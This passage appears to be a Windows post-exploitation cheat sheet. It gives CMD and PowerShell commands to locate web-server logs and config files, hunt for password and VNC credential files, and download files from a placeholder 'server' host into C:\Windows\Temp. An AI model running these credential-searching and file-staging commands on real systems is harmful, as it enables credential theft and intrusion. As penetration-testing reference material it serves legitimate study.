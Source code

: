 What’s in the IIS Logs?
```CMD
C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC2\u_ex[YYMMDD].log
```

Is XAMPP, Apache, or PHP installed? Any there any XAMPP, Apache, or PHP configuration files?
```CMD
dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf
```
```PowerShell
Get-Childitem –Path C:\ -Include php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -ErrorAction SilentlyContinue
```

Any Apache web logs?
```CMD
dir /s access.log error.log
```
```PowerShell
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

Any interesting files to look at? Possibly inside User directories (Desktop, Documents, etc)?
```CMD
dir /s *pass* == *vnc* == *.config* 2>nul
```
```PowerShell
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
```

Files containing password inside them?
```CMD
findstr /si password *.xml *.ini *.txt *.config 2>nul
```
```PowerShell
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

## Techniques

### Transferring Files

PowerShell Cmdlet
```PowerShell
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
```

PowerShell One-Liner
```PowerShell
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename")
```
